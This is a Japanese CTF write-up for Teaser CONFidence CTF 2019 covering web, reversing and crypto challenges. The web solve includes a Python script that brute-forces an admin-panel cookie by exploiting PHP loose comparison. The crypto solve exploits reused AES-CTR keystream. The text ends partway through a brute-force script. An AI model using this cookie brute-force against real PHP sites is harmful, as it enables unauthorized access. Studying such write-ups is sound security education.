

3 月 16 日から 3 月 17 日にかけて開催された [Teaser CONFidence CTF 2019](https://confidence2019.p4.team) に、チーム Harekaze で参加しました。最終的にチームで 296 点を獲得し、順位は得点 546 チーム中 64 位でした。うち、私は 5 問を解いて 296 点を入れました。

以下、解いた問題の write-up です。

## Warmup
### Sanity check (1)
> You can find the flag in the topic of our IRC channel linked below.

公式の IRC チャンネルに入るとトピックにフラグが設定されていました。

```
p4{thanks_for_playing_:)}
```

## Web
### My admin panel (51)
> I think I've found something interesting, but I'm not really a PHP expert. Do you think it's exploitable?
> https://gameserver.zajebistyc.tf/admin/

与えられた URL にアクセスすると、`login.php` と `login.php.bak` という 2 つのファイルの一覧が表示されました。`login.php.bak` はおそらく `login.php` のソースコードでしょう。`login.php.bak` は以下のような内容でした。

```php
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

クライアントが投げたハッシュとサーバ側で設定されているパスワードの MD5 ハッシュが `==` で真になればよいようです。とりあえず、適当なハッシュを投げて偽になった場合に表示されるヒントを取得しましょう。

```
$ python
>>> import requests
>>> requests.get('https://gameserver.zajebistyc.tf/admin/login.php', cookies={'otadmin': '{"hash": "A"}'}).content
b'I CAN EVEN GIVE YOU A HINT XD \n0006464640640064000646464640006400640640646400\n'
```

`0-9a-f` が `ord($c) & 0xc0` に通されたときにどのような値になるかも確認してみましょう。

```
>>> ' '.join(str(ord(c) & 0xc0) for c in '0123456789abcdef')
'0 0 0 0 0 0 0 0 0 0 64 64 64 64 64 64'
```

`0-9` は `0` に、`a-f` は `64` になるようです。つまり `MD5($cfg_pass)` は最初の 3 文字が `0-9` でその後に `a-f` が続く文字列のようです。

PHP ではゆるい比較 (`==`) を使った場合に `1 == '1hoge'` が真になることを利用して、`{"hash": 123}` のように `$session_data['hash']` に数値が入るようにして、総当たりをしてみましょう。

```python
import requests

for x in range(1000):
  if x % 100 == 0:
    print x
  r = requests.get('https://gameserver.zajebistyc.tf/admin/login.php', cookies={
    'otadmin': '{"hash": %d}' % x
  }).content
  if 'HINT XD' not in r:
    print x, r
```

```
$ python2 solve.py
︙
389 Congratulations! p4{wtf_php_comparisons_how_do_they_work}
```

フラグが得られました。

```
p4{wtf_php_comparisons_how_do_they_work}
```

## Re
### Elementary (57)
> Elementary, my dear Watson.
> 添付ファイル: elementary

`elementary` がどのようなファイルか `file` で確認してみましょう。

```
>file elementary
elementary: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d5989f8d294badf15acaa157984968eea75f1fce, not stripped
```

x86_64 の ELF のようです。`objdump` で逆アセンブルしておきましょう。

```
>objdump -d -M intel elementary > elementary.dis
```

`main` から見ていきます。`scanf("%s")` で文字列の入力を行い、`checkFlag` に渡してこの返り値が `0` でなければ正解のようです。

```
000000000000071a <main>:
     71a:	55                   	push   rbp
     71b:	48 89 e5             	mov    rbp,rsp
     71e:	48 81 ec 90 00 00 00 	sub    rsp,0x90
     725:	64 48 8b 04 25 28 00 	mov    rax,QWORD PTR fs:0x28
     72c:	00 00 
     72e:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
     732:	31 c0                	xor    eax,eax
     734:	48 8d 3d d9 7b 0d 00 	lea    rdi,[rip+0xd7bd9]        # "Password: "
     73b:	b8 00 00 00 00       	mov    eax,0x0
     740:	e8 9b fe ff ff       	call   5e0 <printf@plt>
     745:	48 8d 85 70 ff ff ff 	lea    rax,[rbp-0x90]
     74c:	48 89 c6             	mov    rsi,rax
     74f:	48 8d 3d c9 7b 0d 00 	lea    rdi,[rip+0xd7bc9]        # "%s"
     756:	b8 00 00 00 00       	mov    eax,0x0
     75b:	e8 90 fe ff ff       	call   5f0 <__isoc99_scanf@plt>
     760:	48 8d 85 70 ff ff ff 	lea    rax,[rbp-0x90]
     767:	48 89 c7             	mov    rdi,rax
     76a:	e8 0d e4 0c 00       	call   ceb7c <checkFlag>
     76f:	85 c0                	test   eax,eax
     771:	74 13                	je     786 <main+0x6c>
     773:	48 8d 3d a8 7b 0d 00 	lea    rdi,[rip+0xd7ba8]        # "Good Job!"
     77a:	b8 00 00 00 00       	mov    eax,0x0
     77f:	e8 5c fe ff ff       	call   5e0 <printf@plt>
     784:	eb 11                	jmp    797 <main+0x7d>
     786:	48 8d 3d 9f 7b 0d 00 	lea    rdi,[rip+0xd7b9f]        # "Wrong!"
     78d:	b8 00 00 00 00       	mov    eax,0x0
     792:	e8 49 fe ff ff       	call   5e0 <printf@plt>
     797:	b8 00 00 00 00       	mov    eax,0x0
     79c:	48 8b 55 f8          	mov    rdx,QWORD PTR [rbp-0x8]
     7a0:	64 48 33 14 25 28 00 	xor    rdx,QWORD PTR fs:0x28
     7a7:	00 00 
     7a9:	74 05                	je     7b0 <main+0x96>
     7ab:	e8 20 fe ff ff       	call   5d0 <__stack_chk_fail@plt>
     7b0:	c9                   	leave  
     7b1:	c3                   	ret    
```

`checkFlag` を見ていきましょう。引数の `i` 文字目の `j` ビット目を `function1` のような関数に投げ、返り値が `0` である場合に処理を継続するという処理を 832 回繰り返しています。

```
00000000000ceb7c <checkFlag>:
   ceb7c:	55                   	push   rbp
   ceb7d:	48 89 e5             	mov    rbp,rsp
   ceb80:	48 83 ec 18          	sub    rsp,0x18
   ceb84:	48 89 7d e8          	mov    QWORD PTR [rbp-0x18],rdi
︙
   cebb4:	48 8b 45 e8          	mov    rax,QWORD PTR [rbp-0x18]
   cebb8:	48 83 c0 40          	add    rax,0x40
   cebbc:	0f b6 00             	movzx  eax,BYTE PTR [rax]
   cebbf:	0f be c0             	movsx  eax,al
   cebc2:	c1 f8 02             	sar    eax,0x2
   cebc5:	83 e0 01             	and    eax,0x1
   cebc8:	89 45 fc             	mov    DWORD PTR [rbp-0x4],eax
   cebcb:	8b 45 fc             	mov    eax,DWORD PTR [rbp-0x4]
   cebce:	89 c7                	mov    edi,eax
   cebd0:	e8 6e 20 f3 ff       	call   c43 <function1>
   cebd5:	85 c0                	test   eax,eax
   cebd7:	74 0a                	je     cebe3 <checkFlag+0x67>
   cebd9:	b8 00 00 00 00       	mov    eax,0x0
   cebde:	e9 a1 96 00 00       	jmp    d8284 <checkFlag+0x9708>
︙
```

`function0` ~ `function831` は以下のような内容です。複雑そうな処理をしていますが、`gdb` 等で適当な引数を与えて呼び出してみると `引数 ^ 1` か `引数` をそのまま返すだけの関数ばかりであることが分かります。

```
0000000000000c43 <function1>:
     c43:	55                   	push   rbp
     c44:	48 89 e5             	mov    rbp,rsp
     c47:	53                   	push   rbx
     c48:	89 7d e4             	mov    DWORD PTR [rbp-0x1c],edi
     c4b:	8b 45 e4             	mov    eax,DWORD PTR [rbp-0x1c]
     c4e:	89 c0                	mov    eax,eax
     c50:	bb 01 00 00 00       	mov    ebx,0x1
     c55:	83 cb 08             	or     ebx,0x8
︙
     fc5:	89 d8                	mov    eax,ebx
     fc7:	89 45 f4             	mov    DWORD PTR [rbp-0xc],eax
     fca:	8b 45 f4             	mov    eax,DWORD PTR [rbp-0xc]
     fcd:	5b                   	pop    rbx
     fce:	5d                   	pop    rbp
     fcf:	c3                   	ret    
```

解析を自動化してみましょう。

```python
import re

# objdump -d -M intel elementary > elementary.dis
with open('elementary.dis') as f:
  s = f.read()

# check <function\d+>
table = [None for _ in range(832)]
for func in s.split('\n\n'):
  lines = func.splitlines()
  if '<function' not in lines[0]:
    continue

  i = int(re.findall(r'<function(\d+)', lines[0])[0])

  vars = {
    'eax': 0,
    'ebx': 0,
    'ecx': 0
  }
  vars['eax'] = 0xff
  for line in lines[7:-5]:
    op, args = re.split(r'\s+', line.split('\t')[2])
    args = args.split(',')
    args[1] = int(args[1], 16) if args[1].startswith('0x') else vars[args[1]]

    if op == 'xor':
      vars[args[0]] ^= args[1]
    elif op == 'or':
      vars[args[0]] |= args[1]
    elif op == 'and':
      vars[args[0]] &= args[1]
    elif op == 'mov':
      vars[args[0]] = args[1]

  table[i] = vars['eax'] ^ 0xff

# tokuyo!
flag = [0 for _ in range(832 // 8)]
for func in s.split('\n\n'):
  lines = func.splitlines()
  if '<checkFlag' not in lines[0]:
    continue

  for chunk in func.split('je')[:-1]:
    i, j, k = 0, 0, None

    for line in chunk.splitlines():
      if 'add    rax,' in line:
        i = int(line.split('add    rax,')[1], 16)
      elif 'sar    eax,' in line:
        j = int(line.split('sar    eax,')[1], 16)
      elif ('call' in line) and ('<function' in line):
        k = int(re.findall(r'<function(\d+)', line)[0])

    flag[i] ^= table[k] << j

  break

print ''.join(chr(c) for c in flag)
```

```
>python2 solve.py
p4{I_really_hope_you_automated_this_somehow_otherwise_it_might_be_a_bit_frustrating_to_do_this_manually}
```

フラグが得られました。angr を使った方が楽そうですね。

```
p4{I_really_hope_you_automated_this_somehow_otherwise_it_might_be_a_bit_frustrating_to_do_this_manually}
```

### Pudliszki (128)
> For those who don't like all those pesky low-level reversing problems.
> 添付ファイル: pudliszki-1.0-SNAPSHOT-jar-with-dependencies.jar

jar ファイルが与えられました。[JD-GUI](https://github.com/java-decompiler/jd-gui) に投げてみると、`FlagChar.class` `FlagCheckerKt.class` `Multiplier.class` `SizeResultFactory.class` のような謎の処理を行っているファイル、`A.class` や `p.class` のような何の処理も行っていない 1 文字のファイル等が確認できました。

`main` の存在している `FlagCheckerKt.class` から見ていきましょう。まず `SizeResultFactory.Companion.check` に `args.length` と `A.class` を投げ、この返り値が `Correct` のインスタンスであれば処理を継続、`Incorrect` のインスタンスであれば `Failed` と表示してそこで終了しています。

`SizeResultFactory.Companion.check` では `c.getSimpleName()` (= `A`) の長さと `args.length` を比較し、同値であれば `Correct` のインスタンスを、そうでなければ `Incorrect` のインスタンスを返しています。

つまり、`args.length` が `1` であれば (= コマンドライン引数が 1 つだけ与えられていれば) 処理を継続しています。

```java
// FlagCheckerKt.class
︙
  public static final void main(@NotNull String[] args)
  {
    Intrinsics.checkParameterIsNotNull(args, "args");String[] $receiver = args;int $i$a$-with-FlagCheckerKt$main$1 = 0;
    SizeResult localSizeResult = SizeResultFactory.Companion.check($receiver.length, A.class);
    if ((localSizeResult instanceof Correct))
    {
︙
    }
    else if ((localSizeResult instanceof Incorrect))
    {
      String str2 = "Failed";System.out.print(str2);
      int j = -1;System.exit(j);throw ((Throwable)new RuntimeException("System.exit returned normally, while it was supposed to halt JVM."));
    }
  }
︙
```

```java
// SizeResultFactory.class
︙
    @NotNull
    public final <T> SizeResult check(int i, @NotNull Class<T> c)
    {
      Intrinsics.checkParameterIsNotNull(c, "c");return i == c.getSimpleName().length() ? 
        (SizeResult)Correct.INSTANCE : 
        
        (SizeResult)Incorrect.INSTANCE;
    }
︙
```

コマンドライン引数が 1 つだけ与えられた場合の `main` の処理の続きを見ていきましょう。`validateFlag` にコマンドライン引数を投げ、この返り値が `0` であれば `Nice!` を表示し、そうでなければ `Not today` を表示して終了しています。

```java
// FlagCheckerKt.class
︙
  public static final void main(@NotNull String[] args)
  {
︙
    if ((localSizeResult instanceof Correct))
    {
      String str1;
      if (validateFlag($receiver[0]) == 0)
      {
        str1 = "Nice!";System.out.print(str1);
      }
      else
      {
        str1 = "Not today";System.out.print(str1);
        int i = -1;System.exit(i);throw ((Throwable)new RuntimeException("System.exit returned normally, while it was supposed to halt JVM."));
      }
    }
  }
︙
```

`validateFlag` を見ていきましょう。まず `main` でコマンドライン引数の個数をチェックしたときと同じ要領で、`flag` の長さが 28 文字かチェックしています。

その後の処理は大変分かりにくいので一旦読み飛ばしましょう。`flag` に何らかの処理を加えて `checksum` に渡し、この返り値をそのまま `validateFlag` の返り値として返しています。

```java
// FlagCheckerKt.class
︙
  public static final int validateFlag(@NotNull String flag)
  {
    Intrinsics.checkParameterIsNotNull(flag, "flag");SizeResult localSizeResult = SizeResultFactory.Companion.check(flag.length(), IllegalMonitorStateException.class);
    Object $receiver$iv;
    if ((localSizeResult instanceof Correct))
    {
      Sequence localSequence1 = SequencesKt.mapIndexed(SequencesKt.filter(SequencesKt.map(StringsKt.asSequence((CharSequence)flag), (Function1)validateFlag.1.INSTANCE), (Function1)validateFlag.2.INSTANCE), (Function2)validateFlag.3.INSTANCE);
      int $i$f$groupBy;
      Object localObject1 = $receiver$iv;Map destination$iv$iv = (Map)new LinkedHashMap();
      int $i$f$groupByTo;
      Sequence $receiver$iv$iv;
      List localList1;
      Integer localInteger;
︙
      for (Iterator localIterator = $receiver$iv$iv.iterator(); localIterator.hasNext(); localList1.add(localInteger))
      {
︙
      }
      return checksum(
      
        destination$iv$iv);
    }
    if ((localSizeResult instanceof Incorrect))
    {
      $receiver$iv = "Failed";System.out.print($receiver$iv);
      int i = -1;System.exit(i);throw ((Throwable)new RuntimeException("System.exit returned normally, while it was supposed to halt JVM."));
    }
    throw new NoWhenBranchMatchedException();
  }
︙
```

`checksum` を見ていきましょう。`Class.forName` でフラグのある文字のクラス (例えば `u` が出現すれば `u` というクラス) のインスタンスと、`compress` に何らかの数値のリストを投げた返り値のペアを作成しているようです。

`compress` は `List<Integer>` を `int` に変換するメソッドのようです。仕組みは [String.hashCode](https://docs.oracle.com/javase/jp/8/docs/api/java/lang/String.html#hashCode--) のようなもので、例えば `{1, 2, 3}` のようなリストであれば `1*(32**0) + 2*(32**1) + 3*(32**2)`、つまり `3137` に変換しているようです。

```java
// FlagCheckerKt.class
︙
  public static final int checksum(@NotNull Map<Character, ? extends List<Integer>> grouped)
  {
    Intrinsics.checkParameterIsNotNull(grouped, "grouped");
    try
    {
      Map localMap = grouped;
      int $i$f$map;
      Object localObject1 = $receiver$iv;Collection destination$iv$iv = (Collection)new ArrayList(((Map)$receiver$iv).size());
      int $i$f$mapTo;
      Object localObject2 = $receiver$iv$iv;
      Map.Entry item$iv$iv;
      Collection localCollection1;
      int $i$a$-map-FlagCheckerKt$checksum$1;
      Object localObject3;
      for (Iterator localIterator = ((Map)localObject2).entrySet().iterator(); localIterator.hasNext(); localCollection1.add(localObject3))
      {
        item$iv$iv = (Map.Entry)localIterator.next();
        Map.Entry localEntry1 = item$iv$iv;localCollection1 = destination$iv$iv;
        Map.Entry entry;
        $i$a$-map-FlagCheckerKt$checksum$1 = 0;localObject3 = new Pair(Class.forName("team.p4.pudliszki." + String.valueOf(((Character)entry.getKey()).charValue())).newInstance(), Integer.valueOf(compress((List)entry.getValue())));
      }
︙
  }

public static final int compress(@NotNull List<Integer> value)
  {
    Intrinsics.checkParameterIsNotNull(value, "value");Multiplier m = new Multiplier(0, 1, null);
    
    SequencesKt.sumOfInt(SequencesKt.map(CollectionsKt.asSequence((Iterable)value), (Function1)new Lambda(m)
    {
      public final int invoke(int v)
      {
        return v * this.$m.get();
      }
    }));
  }
```

```java
// Multiplier.class
public final class Multiplier
{
  private int m;
  
  public Multiplier()
  {
    this(0, 1, null);
  }
  
  public Multiplier(int m)
  {
    this.m = m;
  }
  
  public final void setM(int <set-?>)
  {
    this.m = <set-?>;
  }
  
  public final int getM()
  {
    return this.m;
  }
  
  public final int get()
  {
    this.m *= 32;
    return this.m / 32;
  }
}
```

その後それらのペアについて、1 つ目の要素が `u` のインスタンスであれば 2 つ目の要素 (`compress` された `List`) から `25` を引いた数値、 1 つ目の要素が `_` のインスタンスであれば 2 つ目の要素から `19849` を引いた数値 … の合計を返り値として返しています。

```java
// FlagCheckerKt.class
︙
  public static final int checksum(@NotNull Map<Character, ? extends List<Integer>> grouped)
  {
︙
      Object $receiver$iv = (Iterable)destination$iv$iv;
      int $i$f$map;
      Iterable $receiver$iv;
      Object $receiver$iv$iv = $receiver$iv;Collection destination$iv$iv = (Collection)new ArrayList(CollectionsKt.collectionSizeOrDefault($receiver$iv, 10));
      int $i$f$mapTo;
      for (localObject2 = ((Iterable)$receiver$iv$iv).iterator(); ((Iterator)localObject2).hasNext(); localCollection1.add(localObject3))
      {
        Object item$iv$iv = ((Iterator)localObject2).next();
        item$iv$iv = (Pair)item$iv$iv;localCollection1 = destination$iv$iv;
        Pair entry;
        int $i$a$-map-FlagCheckerKt$checksum$2 = 0;$i$a$-map-FlagCheckerKt$checksum$1 = entry.getFirst();localObject3 = Integer.valueOf(
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof }) ? ((Number)entry.getSecond()).intValue() - 27 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof _) ? ((Number)entry.getSecond()).intValue() - 19849 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof u) ? ((Number)entry.getSecond()).intValue() - 25 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof t) ? ((Number)entry.getSecond()).intValue() - 5 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof s) ? ((Number)entry.getSecond()).intValue() - 11 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof n) ? ((Number)entry.getSecond()).intValue() - 8 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof l) ? ((Number)entry.getSecond()).intValue() - 486 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof k) ? ((Number)entry.getSecond()).intValue() - 643 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof i) ? ((Number)entry.getSecond()).intValue() - 16 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof h) ? ((Number)entry.getSecond()).intValue() - 786 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof e) ? ((Number)entry.getSecond()).intValue() - 21 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof c) ? ((Number)entry.getSecond()).intValue() - 23 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof 7) ? ((Number)entry.getSecond()).intValue() - 22 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof 5) ? ((Number)entry.getSecond()).intValue() - 17 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof 1) ? ((Number)entry.getSecond()).intValue() - 327 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof 0) ? ((Number)entry.getSecond()).intValue() - 452 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof {) ? ((Number)entry.getSecond()).intValue() - 2 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof 4) ? ((Number)entry.getSecond()).intValue() - 1 : 
          ($i$a$-map-FlagCheckerKt$checksum$1 instanceof p) ? ((Number)entry.getSecond()).intValue() - 27040 : 
          64199);
      }
      return CollectionsKt.sumOfInt(
      
        (Iterable)destination$iv$iv);
    }
    catch (ClassNotFoundException e)
    {
      Object $receiver$iv$iv = "Failed";System.out.print($receiver$iv$iv);
      int i = -1;System.exit(i);throw ((Throwable)new RuntimeException("System.exit returned normally, while it was supposed to halt JVM."));
    }
  }
︙
```

引かれている数値について、すべて `List` に戻してみましょう。

```python
import re
s = """($i$a$-map-FlagCheckerKt$checksum$1 instanceof }) ? ((Number)entry.getSecond()).intValue() - 27 : 
︙
($i$a$-map-FlagCheckerKt$checksum$1 instanceof p) ? ((Number)entry.getSecond()).intValue() - 27040 : """

flag = [None for _ in range(28)]
for line in s.splitlines():
  c = re.findall(r'instanceof (.)', line)[0]
  i = int(re.findall(r'- (\d+)', line)[0])
  tmp = []
  while i != 0:
    tmp.append(i % 32)
    i //= 32
  print(c, tmp)
```

```
$ python test.py
} [27]
_ [9, 12, 19]
u [25]
t [5]
s [11]
n [8]
l [6, 15]
k [3, 20]
i [16]
h [18, 24]
e [21]
c [23]
7 [22]
5 [17]
1 [7, 10]
0 [4, 14]
{ [2]
4 [1]
p [0, 13, 26]
```

`0` から `27` までの数値がそれぞれ 1 回ずつ出現しています。`0` が出現する行では `p`、`1` が出現する行では `4`、`2` が出現する行では `{` のインスタンスであるかチェックされていることから、これらの数値のリストは添字であると推測できます。これを利用して元の文字列を求めてみましょう。

```python
import re
s = """($i$a$-map-FlagCheckerKt$checksum$1 instanceof }) ? ((Number)entry.getSecond()).intValue() - 27 : 
︙
($i$a$-map-FlagCheckerKt$checksum$1 instanceof p) ? ((Number)entry.getSecond()).intValue() - 27040 : """

flag = [None for _ in range(28)]
for line in s.splitlines():
  c = re.findall(r'instanceof (.)', line)[0]
  i = int(re.findall(r'- (\d+)', line)[0])
  while i != 0:
    flag[i % 32] = c
    i //= 32
print(''.join(flag))
```

```
$ python solve.py
p4{k0tl1n_1s_p0li5h_ke7chup}
```

フラグが得られました。

```
p4{k0tl1n_1s_p0li5h_ke7chup}
```

## Crypto
### Count me in! (59)
> I've been lately using this cool AES-CTR, but it was super slow, so I made a parallel version. Now it's blazing fast, but for some reason I have trouble decrypting the data...
> 添付ファイル: count.py, output.txt (count.py によって暗号化されたファイル)

`count.py` は以下のような内容でした。

```python
import multiprocessing

from Crypto.Cipher import AES

from secret import key, flag

counter = 0
aes = AES.new(key, AES.MODE_ECB)


def chunk(input_data, size):
    return [input_data[i:i + size] for i in range(0, len(input_data), size)]


def xor(*t):
    from functools import reduce
    from operator import xor
    return [reduce(xor, x, 0) for x in zip(*t)]


def xor_string(t1, t2):
    t1 = map(ord, t1)
    t2 = map(ord, t2)
    return "".join(map(chr, xor(t1, t2)))


def pad(data):
    pad_byte = 16 - len(data) % 16
    return data + (chr(pad_byte) * pad_byte)


def worker_function(block):
    global counter
    key_stream = aes.encrypt(pad(str(counter)))
    result = xor_string(block, key_stream)
    counter += 1
    return result


def distribute_work(worker, data_list, processes=8):
    pool = multiprocessing.Pool(processes=processes)
    result = pool.map(worker, data_list)
    pool.close()
    return result


def encrypt_parallel(plaintext, workers_number):
    chunks = chunk(pad(plaintext), 16)
    results = distribute_work(worker_function, chunks, workers_number)
    return "".join(results)


def main():
    plaintext = """The Song of the Count

You know that I am called the Count
Because I really love to count
I could sit and count all day
Sometimes I get carried away
I count slowly, slowly, slowly getting faster
Once I've started counting it's really hard to stop
Faster, faster. It is so exciting!
I could count forever, count until I drop
1! 2! 3! 4!
1-2-3-4, 1-2-3-4,
1-2, i love couning whatever the ammount haha!
1-2-3-4, heyyayayay heyayayay that's the sound of the count
I count the spiders on the wall...
I count the cobwebs in the hall...
I count the candles on the shelf...
When I'm alone, I count myself!
I count slowly, slowly, slowly getting faster
Once I've started counting it's really hard to stop
Faster, faster. It is so exciting!
I could count forever, count until I drop
1! 2! 3! 4!
1-2-3-4, 1-2-3-4, 1,
2 I love counting whatever the
ammount! 1-2-3-4 heyayayay heayayay 1-2-3-4
That's the song of the Count!
""" + flag
    encrypted = encrypt_parallel(plaintext, 32)
    print(encrypted.encode("hex"))


if __name__ == '__main__':
    multiprocessing.freeze_support()
    main()
```

平文のフラグ以外の部分が与えられています。これらを利用してみましょう。

```
$ python2
>>> from pwn import *
>>> s = open('output.txt', 'r').read().decode('hex')
>>> t = """The Song of the Count
︙
... """
>>> x = 54
>>> xor(s, xor(s[16*x:16*(x+1)], t[16*x:16*(x+1)]))
"…p4{at_the_end_of_the_day_you_can…"
>>> x = 55
>>> xor(s, xor(s[16*x:16*(x+1)], t[16*x:16*(x+1)]))
'…_only_count_on_yourself}\x08\x08\x08\x08\x08\x08\x08\x08'
```

フラグが得られました。

```
p4{at_the_end_of_the_day_you_can_only_count_on_yourself}
```

---

競技時間中には解けなかったものの、終了直後に解くことができた問題の write-up も書いてみます。

## Re
### Oldschool (128)
> Gynvael did a survey lately to see what kind of assembly is taught in Polish universities, and if any of them is still teaching the old 8086. Let us extend this question to the CTF scene!
> 添付ファイル: oldschool.exe, flag.txt (oldschool.exe によってエンコードされたファイル)

`oldschool.exe` がどのようなファイルか `file` で確認してみましょう。

```
>file oldschool.exe
oldschool.exe: MS-DOS executable, MZ for MS-DOS
```

MS-DOS の実行ファイルのようです。[DOSBox](https://www.dosbox.com/) で実行してみましょう。



`0-9a-f` の文字を 18 文字入力すると `flag.txt` のような文字列が表示されました。どのような処理を行っているかよく分からないので、C っぽいコードにしてみましょう。

```c
#include <stdio.h>
#include <stdlib.h>

char result[162] = {};
char *si;
char *di;

char var_50[9] = {};
void input_hex() {
  unsigned char al, bl, dl;
  for (int i = 0; i < 9; i++) {
    dl = 0;
    bl = 0x10;

    for (int j = 0; j < 2; j++) {
      al = getchar();
      if ('0' <= al && al <= '9') {
        al -= '0';
      } else if ('A' <= al && al <= 'F') {
        al = al - 'A' + 10;
      } else if ('a' <= al && al <= 'f') {
        al = al - 'a' + 10;
      } else {
        puts("Invalid input, bye bye!");
        exit(0);
      }
      dl += al * bl;
      bl = 1;
    }

    for (int j = 0; j < 4; j++) {
      al = dl;
      if ((al & 1) == 0) {
        if ((si != result) && ((si - result) % 0x12) != 0) {
          si--;
        }
      } else {
        if ((si == result) || ((si - result) % 0x12) != 0x10) {
          si++;
        }
      }

      al = dl;
      if (al & 2) {
        if ((si - result) < 0x8f) {
          si += 0x12;
        }
      } else {
        if ((si - result) > 0x11) {
          si -= 0x12;
        }
      }

      dl >>= 2;
      *si = *si + 1;
    }
  }
}

char *table = " p4{krule_ctf}";
void convert_string() {
  for (int i = 0; i < 162; i++) {
    if (*si > 0xd) {
      *si = '^';
    } else {
      *si = table[*si];
    }
    si++;
  }
}

void print_result() {
  putchar('\n');
  for (int i = 0; i < 9; i++) {
    si += 0x11;
    *si = '\n';
    si++;
  }
  *si = '\0'; // '$'
  puts(result);
}

int main() {
  si = result;
  si += 0x50;
  puts("Give me a flag to draw!");
  input_hex();

  di = si;
  si = result;
  convert_string();

  *di = 'E';
  si = result;
  si[0x50] = 'S';

  print_result();
}
```

入力された文字列を幅 17 文字、高さ 9 文字の形式に変換して出力するプログラムのようです。

まず入力された文字列を hex デコードし、下から 2 ビットずつ処理を行っています。ポインタをど真ん中に初期化し、ビット 0 が `0` であれば左に、`1` であれば右に移動し、さらにビット 1 が `0` であれば上に、`1` であれば下に移動、そしてポインタが指している値をインクリメントしています。

そしてその後、`1 → p` `2 → 4` `3 → {` … として出力しています。

フラグフォーマットの `p4{[0-9a-z]+}` を利用して解いてみましょう。

```python
import binascii
import sys

# parse
table = " p4{krule_ctf}"
s = """        4 {4pp   
       p {k4{ E  
      p 44p{ p   
       4 p       
        S        
                 
                 
                 
                 """

m = []
start, end = None, None
for y, line in enumerate(s.splitlines()):
  tmp = []
  for x, c in enumerate(line):
    if c == 'S':
      start = x, y
      tmp.append(0)
    elif c == 'E':
      end = x, y
      tmp.append(0)
    else:
      tmp.append(table.index(c))
  m.append(tmp)

def check():
  for line in m:
    for x in line:
      if x != 0:
        return False
  return True

# solve
convert_table = {
  (-1, 1):  0b10,
  (-1, 0):  0b00,
  (-1, -1): 0b00,
  (1, 0):   0b01,
  (1, -1):  0b01,
  (1, 1):   0b11
}
def convert(qq):
  flag = [0 for _ in range(9)]
  i = 0
  px, py = start
  for x, y in qq:
    tmp = convert_table[x - px, y - py]
    flag[i // 4] |= tmp << (2 * (i % 4))
    px, py = x, y
    i += 1
  flag = ''.join(hex(c)[2:].zfill(2) for c in flag)
  return flag

x, y = start
target = end
q = []

# init
for c in b'p4{':
  for _ in range(4):
    # x
    if c & 1 == 0:
      if x != 0:
        x -= 1
    else:
      if x != 16:
        x += 1

    # y
    if c & 2 == 0:
      if y > 0:
        y -= 1
    else:
      if y < 8:
        y += 1

    q.append((x, y))
    m[y][x] -= 1
    c >>= 2

def solve(x, y):
  if check() and (x, y) == target:
    # solved
    flag = convert(q)
    tmp = binascii.unhexlify(flag)
    if flag.endswith('7d') and all((ord('0') <= c <= ord('9')) or (ord('a') <= c <= ord('z')) for c in tmp[3:-1]):
      print(tmp.decode())
      sys.exit(0)
    return

  dxs = []
  if x != 0:
    dxs.append(-1)
  else:
    dxs.append(0)
  if x != 16:
    dxs.append(1)
  else:
    dxs.append(0)

  dys = []
  if y != 0:
    dys.append(-1)
  else:
    dys.append(0)

  if y != 8:
    dys.append(1)
  else:
    dys.append(0)

  for dy in dys:
    for dx in dxs:
      if m[y + dy][x + dx] > 0 or (x + dx, y + dy) in (start, end):
        q.append((x + dx, y + dy))

        if (x + dx, y + dy) not in (start, end):
          m[y + dy][x + dx] -= 1

        solve(x + dx, y + dy)

        # clean up
        q.pop()
        if (x + dx, y + dy) not in (start, end):
          m[y + dy][x + dx] += 1

solve(x, y)
```

```
$ python solve.py
p4{4qib6}
```

フラグが得られました。

---

総当たりでも解けます。

```python
# coding: utf-8
import binascii
import string
import itertools
import re

def convert(s):
  res = [0 for _ in range(162)]
  i = 0x50

  for c in s:
    for _ in range(4):
      # x
